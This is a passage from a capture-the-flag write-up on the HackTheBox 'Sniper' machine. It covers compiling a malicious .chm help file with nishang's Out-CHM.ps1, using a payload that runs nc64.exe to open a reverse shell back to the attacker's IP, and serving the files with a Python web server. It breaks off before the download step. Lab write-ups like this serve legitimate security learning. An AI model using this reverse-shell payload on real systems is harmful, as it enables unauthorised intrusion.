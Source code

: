 
I have a strong suspicion this note wants us to drop a malicious `.chm` file into this directory. 


To to that, we need the `HTLM Help Workshop` software package, as this (old) package includes the compiler needed to make `chm` files. As far as I'm aware, this is not installed on the target. So insatead, I used a Windows 10 VM which had the package installed. If you don't have the package installed, you can find it in [this](https://learn.microsoft.com/en-us/answers/questions/265752/htmlhelp-workshop-download-for-chm-compiler-instal) Microsoft help thread, which will lead you to a link where you can find the software package through the waybackmachine.


Next, we need to grab a copy of `nishang`'s [Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) script so we can generate our malicious payload. I transfer this script over to my windows 10 VM which has the `HTLM Help Workshop` package installed.


Then I compile my malicious `.chm` file a such:

```powershell
. .\Out-CHM.ps1                                                           
out-chm -payload "C:\\Windows\Tasks\nc64.exe 10.10.14.63 9001 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop\"
```

![compile-35](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/compile-35.png)


This will execute `C:\\Windows\Tasks\nc64.exe` on the target to connect back to my attack machine. So the next step is to transfer `nc64.exe` to the specified path, and our malicious `doc.chm` file over to the `Docs` directory where it is expected. 


To do that, I grab both files to the working directory on my attack machine, and host them up via a python web server

```bash
python3 -m http.server 80
```

Then I download the file from the target using:
